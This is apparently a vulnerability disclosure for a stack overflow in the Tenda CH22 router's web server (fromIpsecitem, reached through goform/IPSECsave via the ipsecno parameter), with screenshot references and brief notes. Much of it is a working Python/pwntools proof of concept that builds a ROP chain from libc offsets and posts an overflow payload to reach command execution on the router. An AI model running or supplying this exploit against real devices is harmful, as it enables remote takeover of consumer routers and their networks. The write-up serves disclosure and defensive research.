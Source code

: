Tenda CH22 V1.0.0.1

**Tenda**  CH22 router there is a stack overflow vulnerability ,which can lead romote command execve 

download：https://tenda.com.cn/material/show/101367



in httpd file, fromIpsecitem function:

![](1.png)

there, it get the value of  ”ipsecno” paramater，but no limit, could cause stack overflow

in fromIpsecitem function, the route  IPSECsave can reach the vulnerability

![](2.png)



![](3.png)

the route is goform/IPSECsave

![](4.png)

via qumu to monite, after exec poc, the process crashed

![](6.png)





![](5.png)

after more exploit, it cat execve command 

poc:

```
import requests
from pwn import *
addr = 0x006B32C

libc=ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
base=0xf6636000
system_addr = base + system_offset
cmd = b"RCERCERCERCERCERCERCERCERCERCERCERCERCERCERCERCERCERCE\x00"
puts = base+libc.sym['puts']

move_r0=base+0x00040cb8
r3_pop=base+0x00018298
url = "http://192.168.100.166/goform/IPSECsave"
payload = {
      'opttype':b'2',
      'ipsecno':cyclic(92)+p32(r3_pop)+p32(puts)+p32(move_r0)+cmd

    }
res = requests.post(url=url,data=payload)
```

